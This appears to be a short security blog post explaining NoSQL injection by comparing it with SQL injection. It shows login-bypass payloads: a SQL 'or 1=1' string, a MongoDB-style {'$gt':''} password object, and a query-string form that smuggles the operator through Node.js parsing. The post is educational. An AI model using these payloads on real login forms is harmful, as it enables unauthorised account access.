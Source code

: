 ```yaml
---
title: "Nosqli"
date: 2022-08-12T23:31:50-04:00
description: "Still thinking about mysql, old man?"
tags: [sqli]
featured_image: "images/nosqli.png"
# images is optional, but needed for showing Twitter Card
images: []
categories: OWASP TOP10
comment: true
draft: false
---
```

# No! It's SQLi!

## Difference

- In http requests

```bash
# sql
username=admin&password=password
# nosql
{
	"username":"admin",
	"password":"password"
}
```

- A simple payload

```bash
# sql
username=admin&password=1'+or+1=1--+
# nosql
# {"$gt":""} will return TRUE because everything is greater than NULL
# which will make the request return ture and log in as admin
{
	"username":"admin",
	"password":{"$gt":""}
}
# nosql
# qs moudle in Nodejs could automatically convert request parameter to JSON object.
# This is what request looks likes
username=admin&password[$gt]=&submit=login
# This is what Nodejs see, same as the example above.
{
	"username":"admin",
	"password":{"$gt":""}
}
```

## To be continued
